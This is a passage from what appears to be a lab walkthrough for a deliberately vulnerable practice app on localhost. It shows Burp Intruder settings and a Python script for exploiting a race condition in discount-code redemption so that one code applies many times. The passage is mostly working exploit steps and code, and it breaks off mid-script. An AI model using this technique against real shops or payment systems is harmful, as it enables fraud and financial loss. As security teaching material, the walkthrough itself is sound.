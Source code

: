 2. Send to Intruder (Ctrl+I)
3. Clear all payload positions (we don't need variables)
4. Go to Intruder → Options:
   - Set "Number of threads" to 20-30 (maximum concurrency)
   - Disable payload encoding
   - Enable "Make unmodified baseline request"
5. Go to Intruder → Payloads:
   - Payload type: "Null payloads"
   - Generate: 50 payloads (50 concurrent requests)
6. Click "Start attack"
7. **Result:** Multiple requests succeed before the code is marked as used

**Expected Response (Multiple successes):**
```json
{
  "success": true,
  "message": "Discount applied successfully!",
  "newBalance": 1050
}
```

#### Step 3: Advanced Exploitation with Python Script
**Objective:** Automate the race condition exploitation with precise timing

**Python Script for Maximum Concurrency:**
```python
import requests
import concurrent.futures
import time

url = "http://localhost:5000/api/vuln/race-condition"
payload = {
    "code": "DISCOUNT50",
    "accountId": "user123"
}

def send_request(session, request_id):
    try:
        response = session.post(url, json=payload)
        result = response.json()
        if result.get("success"):
            print(f"[+] Request {request_id}: SUCCESS - Balance: {result.get('newBalance')}")
            return True
        else:
            print(f"[-] Request {request_id}: FAILED - {result.get('message')}")
            return False
    except Exception as e:
        print(f"[!] Request {request_id}: ERROR - {e}")
        return False

def exploit_race_condition(num_requests=50):
    print(f"[*] Launching {num_requests} concurrent requests...")
    
    session = requests.Session()
    successful_requests = 0
    
    # Use ThreadPoolExecutor for maximum concurrency
    with concurrent.futures.ThreadPoolExecutor(max_workers=num_requests) as executor:
        # Submit all requests at once
        futures = [executor.submit(send_request, session, i) for i in range(num_requests)]
        
        # Wait for all requests to complete
        for future in concurrent.futures.as_completed(futures):
            if future.result():
                successful_requests += 1
```